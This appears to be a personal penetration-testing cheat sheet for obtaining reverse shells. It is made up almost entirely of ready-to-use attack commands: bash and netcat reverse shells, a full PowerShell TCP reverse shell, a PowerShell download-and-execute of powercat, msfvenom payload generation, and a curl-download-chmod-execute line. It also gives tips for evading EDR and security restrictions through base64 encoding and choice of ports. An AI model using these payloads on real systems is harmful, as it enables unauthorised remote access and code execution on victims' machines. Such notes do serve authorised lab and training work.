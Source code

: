 https://www.revshells.com/
#### Listener
```bash
nc -lvnp 4444
```
#### Linux one-liners
```bash
/bin/bash -i >& /dev/tcp/10.10.14.10/4444 0>&1

bash -c '/bin/bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 4444 >/tmp/f

nc 10.10.14.10 4444 -e /bin/bash

busybox nc 10.10.14.10 4444 -e /bin/bash
```
#### Windows one-liners
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

powershell -e <base64_encoded_text>

nc.exe 192.168.45.161 80 -e cmd

# requires http server in ~/tools/windows AND nc listener
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<Kali_IP>/powercat.ps1');powercat -c <Kali_IP> -p 4444 -e cmd"
```

#### Others
APSX
	[ASPX Reverse Shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)


___
#### Msfvenom

Cheat sheet https://github.com/frizb/MSF-Venom-Cheatsheet

General Usage
```bash
msfvenom -p <PAYLOAD> lhost=192.168.45.187 lport=443 -f <extension> -o <filename.extension>

# some payloads
windows/x64/meterpreter/reverse_tcp
windows/shell/shell_reverse_tcp
```

___
to remove / edit...

Some notes for trying to get reverse shells

May need to transfer toolings over
	ie
	nc.exe
	etc...

Try over common ports like 80, 443, 53, etc... stuff that is open to the outside

Try tool full paths
	instead of sh
		/bin/sh
	instead of powershell
		`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

Try base64 encoding payloads
	ie
		~/tools/mkpsrevshell.py
	can bypass certain syntax issues, security restrictions, EDR, etc

Premade exploits
	READ CODE SLOWLY
	might see flags you are supposed to use that you are missing

URL encoding sucks 
	Revshell has build in encoding if you need it


Try a few different binaries
	nc not working?
	try busybox nc
		etc...
	curl && chmod && execute almost always works
		example:
		`curl 192.168.45.183/revshell -o /tmp/revshell && chmod +x /tmp/revshell && ./revshell